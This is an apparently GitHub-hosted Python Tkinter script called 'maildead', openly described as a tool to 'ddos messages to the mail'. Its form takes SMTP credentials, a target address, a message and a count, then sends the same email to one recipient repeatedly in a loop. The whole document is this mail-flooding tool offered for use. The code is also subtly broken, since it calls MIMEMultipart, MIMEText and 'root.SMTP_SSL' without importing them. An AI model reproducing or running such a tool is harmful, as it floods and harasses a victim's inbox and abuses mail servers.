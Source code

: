 # maildead
ddos messages to the mail
from tkinter import *

screen = Tk()

screen.resizable( width = False, height = False )
screen.geometry( '410x230' )
screen.title( 'Spam to mail' )

# Fucntion
def send_mail( event ):
	L = login.get()
	P = password.get()
	U = url.get()
	To = toaddr.get()
	T = topic.get()
	M = mess.get()
	N = number.get()

	for value in range( int( N ) ):
		msg = MIMEMultipart()

		msg[ 'Subject' ] = T
		msg[ 'From' ] = L
		body = M
		msg.attach( MIMEText( body, 'plain' ) )

		server = root.SMTP_SSL( U, 465 )
		server.login( L, P )
		server.sendmail( L, To, msg.as_string() )
		server.quit()

		value += 1
		result [ 'text' ] = 'x' + str( value )

# Events
Tlogin = Label( text = 'Login:', font = 'Consolas' )
login = Entry( screen, font = 'Consolas' )

Tpassword = Label( text = 'Password:', font = 'Consolas' )
password = Entry( screen, font = 'Consolas', show = '*' )

Turl = Label( text = 'URL:', font = 'Consolas' )
url = Entry( screen, font = 'Consolas' )

Ttoaddr = Label( text = 'Кому:', font = 'Consolas' )
toaddr = Entry( screen, font = 'Consolas' )

Ttopic = Label( text = 'Topic message:', font = 'Consolas' )
topic = Entry( screen, font = 'Consolas' )

Tmess = Label( text = 'Message:', font = 'Consolas' )
mess = Entry( screen, font = 'Consolas' )

Tnumber = Label( text = 'Number of message:', font = 'Consolas' )
number = Entry( screen, font = 'Consolas' )

enter = Button( text = 'Send', font = 'Consolas', width = 18 )

result = Label( text = 'Result:', font = 'Consolas' )

# Packers
Tlogin.grid( row = 0, column = 0, sticky = W, padx = 1, pady = 1 )
login.grid( row = 0, column = 1, padx = 1, pady = 1 )

Tpassword.grid( row = 1, column = 0, sticky = W, padx = 1, pady = 1 )
password.grid( row = 1, column = 1, padx = 1, pady = 1 )

Turl.grid( row = 2, column = 0, sticky = W, padx = 1, pady = 1 )
url.grid( row = 2, column = 1, padx = 1, pady = 1 )

Ttoaddr.grid( row = 3, column = 0, sticky = W, padx = 1, pady = 1 )
toaddr.grid( row = 3, column = 1, padx = 1, pady = 1 )

Ttopic.grid( row = 4, column = 0, sticky = W, padx = 1, pady = 1 )
topic.grid( row = 4, column = 1, padx = 1, pady = 1 )

Tmess.grid( row = 5, column = 0, sticky = W, padx = 1, pady = 1 )
mess.grid( row = 5, column = 1, padx = 1, pady = 1 )

Tnumber.grid( row = 6, column = 0, sticky = W, padx = 1, pady = 1 )
number.grid( row = 6, column = 1, padx = 1, pady = 1 )

enter.grid( row = 7, column = 0, padx = 1, pady = 1 )

result.grid( row = 7, column = 1, padx = 1, pady = 1 )

# Bind
enter.bind( '<Button-1>', send_mail )

# The end
screen.mainloop()
